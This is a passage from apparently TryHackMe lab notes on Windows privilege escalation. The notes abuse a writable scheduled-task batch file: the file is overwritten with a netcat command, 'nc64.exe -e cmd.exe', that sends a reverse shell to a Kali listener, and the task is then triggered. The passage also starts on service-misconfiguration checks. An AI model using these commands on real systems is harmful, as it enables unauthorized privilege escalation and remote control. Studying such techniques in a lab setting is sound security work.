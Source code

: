**Victim(cmd)**

```
icacls c:\tasks\schtask.bat
```

<figure><img src="../../../../.gitbook/assets/image (20) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 4444
```

**Victim**

```
echo c:\tools\nc64.exe -e cmd.exe $KALI 4444 > C:\tasks\schtask.bat
schtasks /run /tn $TASK 
```



## Abusing Service Misconfigurations

**Examples**

[#abusing-service-misconfigurations](../../../../walkthroughs/tryhackme/windows-privilege-escalation.md#abusing-service-misconfigurations "mention")

### Insecure Permissions on Service Executable

**Get the flag on svcusr1's desktop**

**Victim(cmd)**

```
sc qc WindowsScheduler
```

<figure><img src="../../../../.gitbook/assets/image (21) (5) (1).png" alt=""><figcaption></figcaption></figure>
